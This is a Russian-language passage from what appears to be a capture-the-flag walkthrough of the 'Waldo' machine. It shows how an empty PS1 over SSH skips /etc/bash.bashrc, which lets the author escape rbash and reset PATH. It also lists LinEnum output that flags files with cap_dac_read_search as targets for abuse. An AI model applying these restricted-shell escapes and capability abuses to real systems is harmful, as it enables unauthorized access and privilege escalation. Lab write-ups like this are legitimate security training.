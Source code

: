 Если переменная `PS1` пуста, то ничего не делаем и просто выходим из скрипта. `PS1` — это ничто иное, как ***P**rompt **S**tring*.

Вот как она выглядит:
```text
monitor@waldo:~$ echo $PS1
${debian_chroot:+($debian_chroot)}\u@\h:\w\$ 
```

А вот, что мы видим при выполнении этой же команды при SSH-коннекте:
```text
root@kali:~# ssh -oStrictHostKeyChecking=no -t -i nobody.key -p 8022 monitor@localhost 'echo $PS1'

Shared connection to localhost closed.
```

Переменная пуста, что дает нам возможность обойти выполнение `/etc/bash.bashrc`, в котором, в свою очередь, устанавливается "плохое" значение переменной `PATH` (`/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1`).

Поэтому, так как `PATH` дефолтен при выполнении команд через SSH:
```text
root@kali:~# ssh -oStrictHostKeyChecking=no -t -i nobody.key -p 8022 monitor@localhost 'echo $PATH'
/usr/local/bin:/usr/bin:/bin:/usr/games
Shared connection to localhost closed.
```

То мы имеем возможность выполнить bash *изнутри* rbash, а далее загрузится `/etc/bash.bashrc`, и мы, уже будучи не в rbash'е, спокойно поменяем значение PATH через `export PATH=...`.

## LinEnum.sh
После того, как я уже прошел Waldo [LinEnum.sh](https://github.com/rebootuser/LinEnum "rebootuser/LinEnum: Scripted Local Linux Enumeration & Privilege Escalation Checks") обновился и теперь может искать интересные файлы с выставленными capabilities:
```text
monitor@waldo:/tmp$ bash LinEnum.sh -t
...
[+] Files with POSIX capabilities set:
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei


[+] Users with specific POSIX capabilities:
cap_dac_read_search monitor


[+] Capabilities associated with the current user:
cap_dac_read_search


[+] Files with the same capabilities associated with the current user (You may want to try abusing those capabilties):
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei


[+] Permissions of files with the same capabilities associated with the current user:
-rwxr-xr-x 1 root root 39752 Feb 22  2017 /usr/bin/tac
-r-xr-x--- 1 app-dev monitor 13706 May  3  2018 /home/monitor/app-dev/v0.1/logMonitor-0.1
...
```
